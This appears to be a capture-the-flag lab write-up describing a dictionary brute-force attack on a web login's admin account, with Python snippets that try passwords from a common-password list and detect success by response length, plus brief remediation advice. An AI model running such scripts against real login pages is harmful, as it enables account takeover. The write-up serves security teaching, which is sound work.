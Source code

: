 # Brute force login

### Introduction
Brute forcing involves attempting multiple combinations of passwords for a specific user until the correct password is discovered, granting access to the user's account.

### Procedure
Numerous brute force techniques exist, and our focus lies on the dictionary attack. This method involves systematically testing a list of potential passwords one by one until the correct password is successfully identified.

To accomplish this, we have created a small Python program, `brute_force.py`, which attempts to authenticate to the `admin` account by testing passwords from a dictionary named `dictionary.txt`. This dictionary contains the most popular passwords used by users in 2014.

### Program
We first starts by converting the lines of our dictionary into a list. This will allow us to successively trying each password from our list. 
```` python
def read_file(path: str):
	with open(path, 'r') as file:
		lines = []

		for line in file:
			lines.append(line.strip())

	return lines
````

Then, for each password in that list, we send a request to the server with the username `admin` using the function `try_authentication`. Every time we attempt an incorrect password, the server responds with a specific length, in our case, 1988 characters. By recognizing this pattern, we can determine the correctness of a password based on the length of the response. Therefore, if a response has a different number of characters than 1988, we know the password is correct.
``` python
def try_authentication(wrong_request_length: int, username: str, password: str):
  print(f"[username: {username}] [password: {password}] => ", end="", flush=True)
  params = {
		'page': 'signin',
		'username': username,
		'password': password,
		'Login': 'Login'
	}

	encoded_params = urllib.parse.urlencode(params)

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	response = requests.get(url)
	success = len(response.text) != wrong_request_length
	print(success)

	return success, response.text
```

Once we find the correct password by print the response containing the flag we are looking for.
```python
for password in passwords:
	success, response = try_authentication(wrong_request_length, username, password)

	if success:
		print(response)
		return
```

### How to fix
It is important for the service to compel users to select a strong password, safeguard the server from sending requests beyond the website by employing tokens, and implement measures to temporarily block IP addresses after a certain number of authentication attempts.

### Sources
[Wikipedia - Brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack)

[Wikipedia - List of the most common passwords](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

[OWASP - Blocking Brute Force Attacks](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

[OWASP - Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)